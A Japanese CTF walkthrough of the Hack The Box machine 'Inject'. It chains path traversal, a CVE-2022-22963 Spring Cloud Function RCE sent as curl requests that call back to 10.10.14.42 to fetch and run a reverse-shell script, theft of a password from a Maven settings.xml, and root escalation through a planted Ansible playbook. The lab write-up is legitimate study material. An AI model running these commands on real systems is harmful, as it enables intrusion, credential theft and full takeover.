

## Inject

まずは、nmapをする。  


22(ssh)と8080(http)が開いている。  
ブラウザから8080にアクセスする。  


「Sign Up」ボタンがあるので、見てみる。  


実装されていないみたい。  
次に「Upload」にアクセスしてみる。  


ファイルをアップロードできるみたい。  
PHPファイルをアップロードして、reverse shellを獲得できるか試してみる。  


画像ファイルしか受け付けないみたい。  
回避できないかと、Content-typeを変更してみたり、二重拡張子を試すが失敗。この方法で突破しないみたい。  
素直に画像ファイルをアップロードする。  


アップロードが成功した。「View your Image」のリンクに飛んでみる。  


```
http://10.10.11.204:8080/show_image?img=cat.jpg
```
上記のようなURLとなっている。  
パラメーターの値が`cat.jpg`となっており、いじってみる。  
パストラバーサルを試してみる。  


ブラウザが画像ファイルとして読み出そうとしたのか、エラーが発生した。  
`curl`からアクセスしてみると成功する。  

そして、存在しない画像ファイルをcurlでアクセスすると、  
以下のようなレスポンスが返される。  
```
{"timestamp":"2023-03-27T11:42:26.665+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/asd.jpg] cannot be resolved in the file system for checking its content length","path":"/show_image"}
```

さらに、パラメーターの値でファイルではなくディレクトリを指定すると、  
そのディレクトリ配下のファイルが表示される。  
```
curl http://inject.htb:8080/show_image?img=../../../../../../../../../../../../../
```


存在しない画像ファイルを取得した際に開示されたパスから`/var/www/WebApp`を見てみる。  


`pom.xml`を見る。  


`spring-cloud-function-web`の`version 3.2.2`を使用しているのがわかる。  

既知の欠陥がないか調べる。  
`CVE-2022-22963`が見つかる。  
参照(https://www.scsk.jp/sp/sysdig/blog/container_security/cve-2022-22963_spring_cloud_rce.html)

Spring Cloud Functionは、関数（Function）を使ってロジックを実行する仕組みです。特定の実行環境に依存せず、  
同じコードでWebのエンドポイント、ストリーム処理、タスクを実行ができるみたいです。  

そして、CVE-2022-22963でHTTPリクエストヘッダからRCEが可能な欠陥があったみたいです。  

以下のようなリクエストで欠陥を利用する。  
```
curl -i -s -k -X $'POST' -H $'Host: inject.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"nc 10.10.14.42 1234")' --data-binary $'exploit_poc' $'http://inject.htb:8080/functionRouter'
```

reverse shellを獲得するために、bashのrev shellを書いたスクリプトファイルをダウンロードさせる。  
```
curl -i -s -k -X $'POST' -H $'Host: inject.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"curl 10.10.14.42:1234/reverse -o /tmp/rev")' --data-binary $'exploit_poc' $'http://inject.htb:8080/functionRouter'
```

アップロードしたbashスクリプトを実行させる。  
```
curl -i -s -k -X $'POST' -H $'Host: inject.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"bash /tmp/rev")' --data-binary $'exploit_poc' $'http://inject.htb:8080/functionRouter'
```

リバースシェルを獲得する。  


`frank`ユーザーを使用しており、ホームディレクトリに隠しディレクトリが見つかる。  


.m2 ディレクトリ下に`settings.xml`ファイルが見つかり、catすると`phil`ユーザーのパスワードが見つかる。  


クレデンシャル情報を使用し、`phil`ユーザーにログインする。  
`/opt`下にディレクトリが見つかり、cdしていくとymlファイルが見つかる。  


このymlファイルを裏でなにかしていると想像し、`pspy`を使用で確認をする。  
しばらくすると、  
`/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml`  
を実行された。  

`ansible-parallel`はAnsibleを使用して実行するタスクを並列実行するためのツールであり、  
ymlファイルの構成ファイルに基づいて、並列実行するホストのグループを指定する。  

ワイルドカードで、拡張子がymlのファイルをroot権限で実行しているみたいなので、  
以下を記述した構成ファイルをアップロードする。  
```
- hosts: localhost
  tasks:
    - name: hoge
      command: chmod u+s /bin/bash
```

しばらくすると、Ansibleが実行され`/bin/bash`にrootのSUIDが付与される。  
`bash -p`を実行して、rootフラグをゲットする。  

